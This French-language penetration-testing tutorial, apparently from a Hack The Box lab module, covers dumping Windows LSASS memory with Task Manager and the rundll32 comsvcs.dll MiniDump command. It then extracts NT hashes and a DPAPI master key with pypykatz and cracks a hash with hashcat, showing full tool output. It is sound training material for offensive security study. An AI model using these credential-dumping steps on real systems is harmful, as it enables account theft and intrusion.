

# LSASS

En plus d'obtenir des copies de la base de données SAM pour vider et casser les hachages, nous bénéficierons également du ciblage de LSASS. Comme indiqué dans la section Stockage des informations d'identification de ce module, LSASS est un service essentiel qui joue un rôle central dans la gestion des informations d'identification et les processus d'authentification dans tous les systèmes d'exploitation Windows.

lsassexe_diagram.png
Lors de la connexion initiale, LSASS :
+ Mettre en cache les informations d'identification localement dans la mémoire
+ Créer des jetons d'accès
+ Appliquer les politiques de sécurité
+ Écrire dans le journal de sécurité Windows

Voyons quelques-unes des techniques et des outils que nous pouvons utiliser pour vider la mémoire LSASS et extraire les informations d'identification d'une cible exécutant Windows.

## Dumping LSASS Process Memory
Semblable au processus d'attaque de la base de données SAM, avec LSASS, il serait judicieux pour nous de créer d'abord une copie du contenu de la mémoire du processus LSASS via la génération d'un vidage mémoire. La création d'un fichier de vidage nous permet d'extraire les informations d'identification hors ligne à l'aide de notre hôte d'attaque. Gardez à l'esprit que mener des attaques hors ligne nous donne plus de flexibilité dans la vitesse de notre attaque et nécessite moins de temps passé sur le système cible. Il existe d'innombrables méthodes que nous pouvons utiliser pour créer une image mémoire. Couvrons les techniques qui peuvent être exécutées à l'aide d'outils déjà intégrés à Windows.

### Méthode du gestionnaire de tâches
Avec l'accès à une session graphique interactive avec la cible, nous pouvons utiliser le gestionnaire de tâches pour créer un vidage mémoire. Cela nous oblige à :

```
Ouvrez le Gestionnaire des tâches> Sélectionnez l'onglet Processus> Recherchez et cliquez avec le bouton droit sur le processus de l'autorité de sécurité locale> Sélectionnez Créer un fichier de vidage
```

Un fichier appelé lsass.DMP est créé et enregistré dans :
```
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

C'est le fichier que nous allons transférer à notre hôte d'attaque. Nous pouvons utiliser la méthode de transfert de fichiers décrite dans la section Attaquer le SAM de ce module pour transférer le fichier de vidage vers notre hôte d'attaque.

### Méthode Rundll32.exe & Comsvcs.dll
La méthode du gestionnaire de tâches dépend du fait que nous ayons une session interactive basée sur l'interface graphique avec une cible. Nous pouvons utiliser une méthode alternative pour vider la mémoire du processus LSASS via un utilitaire de ligne de commande appelé rundll32.exe. Cette méthode est plus rapide que la méthode du gestionnaire de tâches et plus flexible car nous pouvons obtenir une session shell sur un hôte Windows avec uniquement un accès à la ligne de commande. Il est important de noter que les outils antivirus modernes reconnaissent cette méthode comme une activité malveillante.

Avant d'émettre la commande pour créer le fichier de vidage, nous devons déterminer quel ID de processus (PID) est attribué à lsass.exe. Cela peut être fait depuis cmd ou PowerShell :

### Trouver le PID LSASS dans cmd
À partir de cmd, nous pouvons émettre la commande tasklist /svc et trouver lsass.exe et son ID de processus dans le champ PID.
```
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

### Trouver le PID LSASS dans PowerShell
À partir de PowerShell, nous pouvons émettre la commande Get-Process lsass et voir l'ID de processus dans le champ Id.
```
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

### Création de lsass.dmp à l'aide de PowerShell
Avec une session PowerShell élevée, nous pouvons émettre la commande suivante pour créer le fichier de vidage :

```
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Avec cette commande, nous exécutons rundll32.exe pour appeler une fonction exportée de comsvcs.dll qui appelle également la fonction MiniDumpWriteDump (MiniDump) pour vider la mémoire du processus LSASS dans un répertoire spécifié (C:\lsass.dmp). Rappelez-vous que la plupart des outils AV modernes reconnaissent cela comme malveillant et empêchent l'exécution de la commande. Dans ces cas, nous devrons envisager des moyens de contourner ou de désactiver l'outil AV auquel nous sommes confrontés. Les techniques de contournement AV sortent du cadre de ce module.

Si nous parvenons à exécuter cette commande et à générer le fichier lsass.dmp, nous pouvons procéder au transfert du fichier sur notre boîte d'attaque pour tenter d'extraire toutes les informations d'identification qui auraient pu être stockées dans la mémoire du processus LSASS.
<hr>

## Utilisation de Pypykatz pour extraire les informations d'identification

Une fois que nous avons le fichier de vidage sur notre hôte d'attaque, nous pouvons utiliser un outil puissant appelé pypykatz pour tenter d'extraire les informations d'identification du fichier .dmp. Pypykatz est une implémentation de Mimikatz entièrement écrite en Python. Le fait qu'il soit écrit en Python nous permet de l'exécuter sur des hôtes d'attaque basés sur Linux. Au moment d'écrire ces lignes, Mimikatz ne fonctionne que sur les systèmes Windows, donc pour l'utiliser, nous aurions besoin d'utiliser un hôte d'attaque Windows ou nous aurions besoin d'exécuter Mimikatz directement sur la cible, ce qui n'est pas un scénario idéal. Cela fait de Pypykatz une alternative attrayante car tout ce dont nous avons besoin est une copie du fichier de vidage, et nous pouvons l'exécuter hors ligne à partir de notre hôte d'attaque basé sur Linux.

Rappelez-vous que LSASS stocke les informations d'identification qui ont des sessions de connexion actives sur les systèmes Windows. Lorsque nous avons vidé la mémoire du processus LSASS dans le fichier, nous avons essentiellement pris un "instantané" de ce qui était en mémoire à ce moment-là. S'il y a eu des sessions de connexion actives, les informations d'identification utilisées pour les établir seront présentes. Exécutons Pypykatz sur le fichier de vidage et découvrons-le.

## Exécution de Pypykatz
La commande lance l'utilisation de pypykatz pour analyser les secrets cachés dans le vidage mémoire du processus LSASS. Nous utilisons lsa dans la commande car LSASS est un sous-système de l'autorité de sécurité locale, puis nous spécifions la source de données en tant que fichier minidump, précédé du chemin vers le fichier de vidage (/home/peter/Documents/lsass.dmp) stocké sur notre hôte d'attaque. Pypykatz analyse le fichier de vidage et affiche les résultats :
```
dsgsec@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605

== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)

== LogonSession ==
authentication_id 1343859 (148173)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2021-12-14T18:14:25.248681+00:00
sid S-1-5-90-0-2
luid 1343859
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
```

Examinons plus en détail certaines des informations utiles contenues dans la sortie.

### MSV
```
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

MSV est un package d'authentification dans Windows auquel LSA fait appel pour valider les tentatives d'ouverture de session par rapport à la base de données SAM. Pypykatz a extrait le SID, le nom d'utilisateur, le domaine et même les hachages de mot de passe NT et SHA1 associés à la session de connexion du compte utilisateur bob stocké dans la mémoire du processus LSASS. Cela s'avérera utile dans la dernière étape de notre attaque couverte à la fin de cette section.

### WDIGEST
```
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```

WDIGEST est un ancien protocole d'authentification activé par défaut dans Windows XP - Windows 8 et Windows Server 2003 - Windows Server 2012. LSASS met en cache les informations d'identification utilisées par WDIGEST en texte clair. Cela signifie que si nous nous retrouvons à cibler un système Windows avec WDIGEST activé, nous verrons très probablement un mot de passe en texte clair. Les systèmes d'exploitation Windows modernes ont WDIGEST désactivé par défaut. De plus, il est essentiel de noter que Microsoft a publié une mise à jour de sécurité pour les systèmes concernés par ce problème avec WDIGEST. Nous pouvons étudier les détails de cette mise à jour de sécurité ici.

### Kerberos
```
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```

Kerberos est un protocole d'authentification réseau utilisé par Active Directory dans les environnements de domaine Windows. Les comptes d'utilisateurs de domaine reçoivent des tickets lors de l'authentification avec Active Directory. Ce ticket est utilisé pour permettre à l'utilisateur d'accéder aux ressources partagées sur le réseau auquel il a été autorisé à accéder sans avoir à saisir ses informations d'identification à chaque fois. LSASS met en cache les mots de passe, les clés électroniques, les tickets et les broches associés à Kerberos. Il est possible de les extraire de la mémoire du processus LSASS et de les utiliser pour accéder à d'autres systèmes joints au même domaine.

### DPAPI
```
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```

L'interface de programmation d'application de protection des données ou DPAPI est un ensemble d'API dans les systèmes d'exploitation Windows utilisé pour chiffrer et déchiffrer les blobs de données DPAPI sur une base par utilisateur pour les fonctionnalités du système d'exploitation Windows et diverses applications tierces. Voici quelques exemples d'applications qui utilisent DPAPI et pourquoi elles l'utilisent :

| Applications | Use of DPAPI |
| --- | --- |
| `Internet Explorer` | Password form auto-completion data (username and password for saved sites). |
| `Google Chrome` | Password form auto-completion data (username and password for saved sites). |
| `Outlook` | Passwords for email accounts. |
| `Remote Desktop Connection` | Saved credentials for connections to remote machines. |
| `Credential Manager` | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more. |

Mimikatz et Pypykatz peuvent extraire la clé principale DPAPI pour l'utilisateur connecté dont les données sont présentes dans la mémoire de processus LSASS. Cette clé principale peut ensuite être utilisée pour déchiffrer les secrets associés à chacune des applications utilisant DPAPI et entraîner la capture d'informations d'identification pour différents comptes. Les techniques d'attaque DPAPI sont traitées plus en détail dans le module Windows Privilege Escalation.

## Craquer le hachage NT avec Hashcat
Nous pouvons maintenant utiliser Hashcat pour casser le NT Hash. Dans cet exemple, nous n'avons trouvé qu'un seul hachage NT associé à l'utilisateur Bob, ce qui signifie que nous n'aurons pas besoin de créer une liste de hachages comme nous l'avons fait dans la section Attaque SAM de ce module. Après avoir défini le mode dans la commande, nous pouvons coller le hachage, spécifier une liste de mots, puis déchiffrer le hachage.
```
dsgsec@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```
